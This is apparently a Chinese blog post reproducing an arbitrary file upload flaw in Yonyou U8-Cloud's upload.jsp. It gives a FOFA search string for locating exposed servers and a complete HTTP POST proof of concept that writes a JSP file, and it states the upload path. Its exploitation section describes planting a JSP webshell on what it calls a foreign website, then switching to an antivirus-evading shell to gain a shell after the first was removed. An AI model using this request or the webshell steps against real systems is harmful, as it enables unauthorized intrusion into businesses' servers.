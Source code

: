 # 原创
：  漏洞复现--用友U8-Cloud upload.jsp任意文件上传

# 漏洞复现--用友U8-Cloud upload.jsp任意文件上传

## 免责声明：

**文章中涉及的漏洞均已修复，敏感信息均已做打码处理，文章仅做经验分享用途，切勿当真，未授权的攻击属于非法行为！文章中敏感信息均已做多层打马处理。传播、利用本文章所提供的信息而造成的任何直接或者间接的后果及损失，均由使用者本人负责，作者不为此承担任何责任，一旦造成后果请自行负责**

### 一：漏洞描述

U8 cloud集中于企业内部管理管控，管理规范，高效，协同，透明。通过云模式，低成本，快速部署，即租即用帮助企业免除硬软件投入的快速 搭建企业管理架构。通过云服务连接，业务模式、服务模式的经营创新。该产品upload.jsp存在任意文件上传漏洞

### 二：漏洞影响版本

用友U8-Cloud

### 三：网络空间测绘查询

fofa:<br/> `app="用友-U8-Cloud"`<br/> <img alt="image.png" src="https://img-blog.csdnimg.cn/img_convert/7bef90df6311373bce61dd2d48f3ae39.jpeg"/>

### 四：漏洞复现

<img alt="image.png" src="https://img-blog.csdnimg.cn/img_convert/8a7a58169a319c6b0d90f561d459d3d4.jpeg"/><br/> POC:

```

POST /linux/pages/upload.jsp HTTP/1.1
Host: ip:port
User-Agent: Mozilla/5.0 (Windows NT 10.0; WOW64; rv:52.0) Gecko/20100101 Firefox/52.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,en-US;q=0.5,en;q=0.3
Accept-Encoding: gzip, deflate
Cookie: JSESSIONID=F0344BD3C6761D7E4CFDDD76960710B1.server; JSESSIONID=297190CC38DE8614285AD7DC95102AFB.server
DNT: 1
Connection: close
Upgrade-Insecure-Requests: 1
Content-Type: application/x-www-form-urlencoded
filename: hack.jsp
Content-Length: 56


&lt;% out.println("The website has vulnerabilities!!");%&gt;

```

<img alt="image.png" src="https://img-blog.csdnimg.cn/img_convert/95148e7ea85a0ffb3b83e7e6987145fb.jpeg"/><br/> 上传路径在/linux/{filename}.jsp<br/> <img alt="image.png" src="https://img-blog.csdnimg.cn/img_convert/27f2160919e58d61be63ed03e62beb60.jpeg"/>

### 五：漏洞利用

此处为国外网站资产，请勿非法利用！<br/> <img alt="image.png" src="https://img-blog.csdnimg.cn/img_convert/d2c185147eba9c3eb97f2177f41eb1ee.jpeg"/><br/> 写入JSP马<br/> <img alt="image.png" src="https://img-blog.csdnimg.cn/img_convert/91dcf83699e61cac19c8f9ba5453093b.jpeg"/><br/> 让杀了，尴尬了<br/> 上传免杀马直接getshell
